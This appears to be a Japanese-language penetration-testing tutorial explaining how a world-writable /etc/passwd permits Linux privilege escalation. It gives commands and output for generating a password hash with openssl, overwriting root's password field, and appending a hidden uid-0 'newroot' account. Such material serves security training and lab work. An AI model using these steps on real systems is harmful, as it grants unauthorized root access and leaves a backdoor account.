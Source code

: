 etc/passwdは、歴史的にユーザーのパスワードハッシュを含んでいました。   
後方互換性のために、/etc/passwdのユーザー行の2番目のフィールドにパスワードハッシュが含まれている場合、/etc/shadowのハッシュよりも優先されます。    
etc/passwdに書き込むことができれば、ルートユーザーの既知のパスワードハッシュを簡単に入力し、suコマンドでルートユーザーに切り替えられる。   
また、ファイルへの追記のみであれば、新しいユーザーを作成し、そのユーザーにルート・ユーザーID（0）を割り当てることも可能です。Linuxでは、ユーザー名さえ違えば、同じユーザーIDで複数のエントリーができるため、この方法が有効です。   

etc/passwdのrootアカウントは、通常このように設定されています。
```
root:x:0:0:root:/root:/bin/bash
```
2番目のフィールドの "x "は、Linuxが/etc/shadowファイルからパスワードハッシュを探すように指示します。   
Linuxのバージョンによっては、単に "x "を削除することも可能で、その場合、Linuxはパスワードがないユーザーと解釈します。
```
root::0:0:root:/root:/bin/bash
```
# Privilege Escalation
1. etc/passwdファイルのパーミッションを確認します。
```
$ ls -l /etc/passwd
-rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd
```
誰でも書き込み可能であることに注意してください
2. パスワード "password "のパスワードハッシュをopensslで生成します。
```
$ openssl passwd "password"
L9yLGxncbOROc
```
3. etc/passwdファイルを編集し、rootユーザーの行の2番目のフィールドにハッシュを入力します。
```
root:L9yLGxncbOROc:0:0:root:/root:/bin/bash
```
4. suコマンドでrootユーザーに切り替わります。
```
$ su
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
```
5. または、/etc/passwdに新しい行を追加して、別のルートユーザー（例：newroot）を作成します。
```
newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash
```
6. suコマンドでnewrootユーザーに切り替わります。
```
$ su newroot
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
```
